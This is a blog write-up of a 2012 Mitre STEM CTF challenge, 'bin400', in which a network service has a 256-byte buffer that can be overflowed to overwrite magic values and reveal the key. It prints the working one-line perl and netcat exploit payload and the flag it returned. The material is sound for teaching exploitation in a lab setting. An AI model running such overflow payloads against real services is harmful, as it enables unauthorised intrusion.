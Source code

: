 ```yaml
---
title: 'Mitre STEM CTF 2012 &#8211; bin400'
author: awreece
layout: post
categories:
  - CTF
  - Write-Ups
---
```

### Overview

[bin400][1] is a network service has a buffer overflow vulnerability &#8211; it prints the key if some magic numbers are changed and otherwise prints itself.

<!--more-->

### Writeup

After realizing that the question was terribly worded and the service was not available publicly, we finally connect to the service and are rewarded with a binary. Its quickly apparent we&#8217;re supposed to overflow a buffer and change some magic value.

<div id="attachment_917" style="width: 418px" class="wp-caption aligncenter">
  <a href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.png"><img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.png" alt="" title="bin400" width="408" height="272" class="size-full wp-image-917" /></a>
  
  <p class="wp-caption-text">
    Simple buffer overflow &#8211; buffer is only 256 bytes long and right below v15-v17.
  </p>
</div>

<pre>% cat &lt;(perl -e 'print "A"x256, "\x13\x0f\x17\x7f", "\x54\x4e\x4f\x44", "\x42\x7d\x3d\x5e", "\n"') - | tsocks nc 10.0.0.171 3490
MCA-A4C52829
</pre>

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.tar.gz